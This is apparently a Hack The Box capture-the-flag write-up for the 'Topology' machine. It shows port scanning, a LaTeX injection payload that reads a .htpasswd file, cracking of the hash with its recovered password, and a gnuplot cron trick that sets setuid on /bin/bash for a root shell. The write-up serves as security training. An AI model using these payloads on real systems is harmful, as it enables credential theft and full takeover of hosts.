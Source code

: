 ![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/9efa2935-ea00-4868-8836-85a31b4f9f7b)# Box: Topology
# Level: Easy
# OS: Linux
<hr>

Lets get started

# Recon

## PortScanning

command:```sudo nmap -A 10.129.73.145 -v -p- -T4```

```
Nmap scan report for 10.129.73.145
Host is up (0.21s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 dc:bc:32:86:e8:e8:45:78:10:bc:2b:5d:bf:0f:55:c6 (RSA)
|   256 d9:f3:39:69:2c:6c:27:f1:a9:2d:50:6c:a7:9f:1c:33 (ECDSA)
|_  256 4c:a6:50:75:d0:93:4f:9c:4a:1b:89:0a:7a:27:08:d7 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Miskatonic University | Topology Group
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-methods: 
|_  Supported Methods: HEAD GET POST OPTIONS
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.94%E=4%D=10/21%OT=22%CT=1%CU=41382%PV=Y%DS=2%DC=T%G=Y%TM=653424
OS:91%P=x86_64-pc-linux-gnu)SEQ(SP=106%GCD=1%ISR=106%TI=Z%CI=Z%TS=A)SEQ(SP=
OS:106%GCD=1%ISR=106%TI=Z%CI=Z%II=I%TS=A)SEQ(SP=107%GCD=1%ISR=105%TI=Z%CI=Z
OS:%II=I%TS=A)OPS(O1=M53CST11NW7%O2=M53CST11NW7%O3=M53CNNT11NW7%O4=M53CST11
OS:NW7%O5=M53CST11NW7%O6=M53CST11)WIN(W1=FE88%W2=FE88%W3=FE88%W4=FE88%W5=FE
OS:88%W6=FE88)ECN(R=Y%DF=Y%T=40%W=FAF0%O=M53CNNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=4
OS:0%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O
OS:=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40
OS:%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q
OS:=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y
OS:%DFI=N%T=40%CD=S)

Uptime guess: 20.776 days (since Sun Oct  1 01:43:17 2023)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=262 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 443/tcp)
HOP RTT       ADDRESS
1   215.71 ms 10.10.14.1
2   210.92 ms 10.129.73.145

Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Oct 21 20:20:49 2023 -- 1 IP address (1 host up) scanned in 993.90 seconds
```
From the scan we have 2 open ports, port 22 which runs ssh and port 80 which runs http. Our enumeration today will be focused on port 80



# Enumeration

Navigate to the webpage

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/5e340e8a-5cd0-4205-879c-a2be90b0a64e)

This looks like a normal webpage

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/97542b33-5dba-434a-b9a8-991f29a0b2f5)

Clicking on that,

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/32907fe6-6347-4b90-91c9-fa5355ceb9b0)

Lets add the subdomain ```latex.topology.htb``` to our ```/etc/hosts``` file.

Now, we should be able to access the subdomain

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/2cfdd623-abdf-43ee-a9e0-155788fa7a4b)

We have a Latex Equation Generator here. Lets exploit this



# Exploitation

I tried lots of payload before I could find the right one

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/df99ec7d-f75a-4e52-9697-6fa140685edb)

We'll be using this to read the ```.htpasswd``` file. When I did a subdomain enumeration, I found a subdomain ```dev.topology.htb```, this means its file path will be ```/var/www/dev```.

Lets read the file from this path

payload:```$\lstinputlisting{/var/www/dev/.htpasswd}$```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/725d9219-79f8-4be1-a0e5-6bc5244cf0f1)
![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/bc5ec5e1-a447-4cc8-b0df-33c6198923dd)

nice nice, lets decrypt this hash using john

command:```john hash --wordlist=/usr/share/wordlists/rockyou.txt```

```
┌──(bl4ck4non👽bl4ck4non-sec)-[~/Downloads/HTB/topology]
└─$ john hash --wordlist=/usr/share/wordlists/rockyou.txt                 
Warning: detected hash type "md5crypt", but the string is also recognized as "md5crypt-long"
Use the "--format=md5crypt-long" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 256/256 AVX2 8x3])
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
calculus20       (?)     
1g 0:00:00:08 DONE (2023-10-31 17:43) 0.1228g/s 122370p/s 122370c/s 122370C/s callel..cabrio97
Use the "--show" option to display all of the cracked passwords reliably
```
Since we have the usernam to be ```vdaisley```, lets ssh into the server

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/9fdbe3d2-803a-401f-bbc2-976ca6459db8)

We are in. Lets go ahead and escalate our privileges




# Privilege Escalation

Running the pspy tool

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/fd3236fe-12ab-44d4-993a-332a1d52e6bd)

We can see that after the process ```/bin/sh``` we find the ```gnuplot``` directory file

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/7bc0423c-c07e-4dd6-8afd-96aea7f9fba0)

Since this is a ```/bin/sh``` process lets try to create a ```.sh``` file, that will get executed with this process

command:```echo ‘system “chmod u+s /bin/bash”’ > /opt/gnuplot/vawulence.plt```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/a45f2e8c-2760-46df-8baf-c489729cf02b)

we'll wait for the process to set the "setuid" permission on the /bin/bash executable

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/8ae1836a-71a7-42b3-b4aa-699765295cea)

cool cool, we can spawn root shell by running ```bash -p```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/dc31b7ad-a392-4619-997a-439f1046f607)

We have successfully pwned this box😎


That will be all for today
<br><br>
[Back To Home](../../index.md)

























